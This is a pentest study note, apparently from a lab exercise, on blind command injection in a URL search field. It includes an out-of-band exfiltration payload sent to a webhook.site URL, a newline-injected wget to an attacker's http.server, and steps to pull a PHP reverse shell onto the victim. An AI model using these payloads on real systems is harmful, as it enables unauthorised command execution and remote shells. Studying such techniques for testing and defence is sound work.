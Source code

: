 >[!tips] Best Practice
>- use the full path for binaries  (ex `/bin/sh`)
>- use a different port (not 4444) -->  bc something fails
>	- try common port -->  80/8080/443
>

#### Blind / Out-of-Band 0x02
same things, but here we don't see the commands executed
=>
it's blind
Example:
if we search a website
![[Pasted image 20240308142418.png]]
if we search a website that doesn't exist =>  we get NotFound
=>
let's try with:
`https://google.com; whoami;`
it doesn't give us the command -->  but return Website OK anyway

##### WebHook
- open Webhook in the browser  ([[cheat#Webhook.site]])
- copy the unique URL
- insert the URL + ?\`command\`
```
https://webhook.site/a67abe7f-f8f9-44af-bf90-6f29be6fd833?`whoami`
```
- open webhook and see if you can see the output of the command
  <span style="color:#00b050">YES we have it</span>
	![[Pasted image 20240308143557.png]]


##### Trigger new line
here the OS is linux =>  let's try to trigger new line
`python3 -m http.server 8080` -->  setup a web server from the attacker
`https://google.com \n wget 172.17.0.1:8080/test`  -->  try to trigger a new line and retrieve 
                                                   something from the webserver
<span style="color:#00b050">It works</span> (404 not found bc we don't have any "test")
![[Pasted image 20240308144152.png]]
=>
we can:
- create a reverse php shell
- put it inside our python3 http server
- try to retrieve from the victim through the vulnerable input

##### Get a shell
- search on google -->  [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- copy it locally and change the IP and the port
- `chmod +x rev.php`
- open a web server from this directory -->  `python3 -m http.server 8080`
- try to retrieve the shell as before:
  `https://google.com \n wget 172.17.0.1:8080/rev.php`
